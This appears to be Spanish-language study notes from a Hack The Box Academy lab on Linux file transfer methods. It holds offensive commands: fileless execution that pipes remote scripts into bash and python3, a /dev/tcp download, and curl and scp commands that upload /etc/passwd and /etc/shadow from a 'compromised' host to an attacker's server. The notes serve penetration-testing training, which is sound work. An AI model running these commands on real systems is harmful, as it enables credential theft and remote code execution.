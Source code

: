 ## Download Operations
Tenemos acceso a la máquina. `NIX04`, y necesitamos descargar un archivo de nuestro `Pwnbox`máquina. Veamos cómo podemos lograr esto usando múltiples métodos de descarga de archivos.

![](https://academy.hackthebox.com/storage/modules/24/LinuxDownloadUpload.drawio.png)
## Codificación/Decodificación Base64
Dependiendo del tamaño del archivo que queramos transferir, podemos utilizar un método que no requiera comunicación de red. Si tenemos acceso a una terminal, podemos codificar un archivo en una cadena base64, copiar su contenido en la terminal y realizar la operación inversa.

```js
┌──(pelado㉿kali)-[~/HTB/Academy/FileTransfer]
└─$ md5sum hola.txt
1fec55901495925250c740e68f037e5c  hola.txt
```

Usamos cat para imprimir el contenido del archivo y codificamos en base64 la salida usando una tubería |. Utilizamos la opción -w 0 para crear sólo una línea y terminamos el comando con un punto y coma (;) y la palabra clave echo para iniciar una nueva línea y facilitar la copia.
#### Codifica la clave SSH en Base64
```js
┌──(pelado㉿kali)-[~/HTB/Academy/FileTransfer]
└─$ cat hola.txt |base64 -w 0;echo
SG9sYSBIVEIK
```

```js
htb-student@nix04:~$ echo -n 'SG9sYSBIVEIK' | base64 -d > hi.txt
```

Finalmente, podemos confirmar si el archivo se transfirió exitosamente usando el `md5sum` dominio.
```js
htb-student@nix04:~$ md5sum hi.txt 
1fec55901495925250c740e68f037e5c  hi.txt
```

## Web Downloads with Wget and cURL
Dos de las utilidades más comunes en las distribuciones de Linux para interactuar con aplicaciones web son `wget` y `curl`. Estas herramientas están instaladas en muchas distribuciones de Linux. Para descargar un archivo usando `wget`, necesitamos especificar la URL y la opción `-O' para establecer el nombre del archivo de salida.

```js
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

`cURL` es muy similar a `wget`, pero la opción del nombre del archivo de salida es -o en minúscula.
```js
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## Fileless Attacks Using Linux
#### Fileless Download with cURL
```js
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
#### Fileless Download with wget
```js
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Download with Bash (/dev/tcp)
También puede haber situaciones en las que ninguna de las herramientas de transferencia de archivos más conocidas esté disponible. Siempre que esté instalada la versión 2.04 o superior de Bash (compilada con --enable-net-redirections), el archivo de dispositivo integrado /dev/TCP se puede utilizar para descargas de archivos simples.

#### Conéctese al servidor web de destino
```js
exec 3<>/dev/tcp/10.10.10.32/80
```

#### HTTP GET Request
```js
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

#### Print the Response
```js
cat <&3
```

## SSH Downloads
SSH (o Secure Shell) es un protocolo que permite el acceso seguro a computadoras remotas. La implementación de SSH viene con un `SCP` Utilidad para la transferencia remota de archivos que, de forma predeterminada, utiliza el protocolo SSH. 

#### Habilitando el servidor SSH
```js
sudo systemctl enable ssh
```
#### Iniciando el servidor SSH
```js
sudo systemctl start ssh
```
#### Comprobando el puerto de escucha SSH
```js
netstat -lnpt
```

#### Linux: descarga de archivos mediante SCP
```js
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

## Upload Operations
## Web Upload
#### Instalar servidor web
```js
sudo python3 -m pip install --user uploadserver
```
Ahora necesitamos crear un certificado. En este ejemplo, utilizamos un certificado autofirmado.
#### Cear un certificado autofirmado
```js
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
El servidor web no debe alojar el certificado. Recomendamos crear un nuevo directorio para alojar el archivo en nuestro servidor web.
#### Iniciar servidor web
```js
sudo python3 -m uploadserver 443 --server-certificate /home/pelado/HTB/Academy/FileTransfer/server.pem
```

Ahora desde nuestra máquina comprometida, carguemos el `/etc/passwd` y `/etc/shadow` archivos.
```js
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
Usamos la opción `--insecure` porque utilizamos un certificado autofirmado en el que confiamos.

## Método alternativo de transferencia de archivos web
#### Creación de un servidor web con Python3
```js
python3 -m http.server
```

#### Creación de un servidor web con Python2.7
```js
python2.7 -m SimpleHTTPServer
```

#### Creación de un servidor web con PHP
```js
php -S 0.0.0.0:8000
```

#### Creación de un servidor web con Ruby
```js
ruby -run -ehttpd . -p8000
```

#### Descargue el archivo de la máquina de destino al Kali
```js
wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload
Es posible que encontremos algunas empresas que permitan la `SSH protocol` (TCP/22) para conexiones salientes, y si ese es el caso, podemos usar un servidor SSH con el `scp`Utilidad para subir archivos.
#### Carga de archivos usando SCP
```js
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```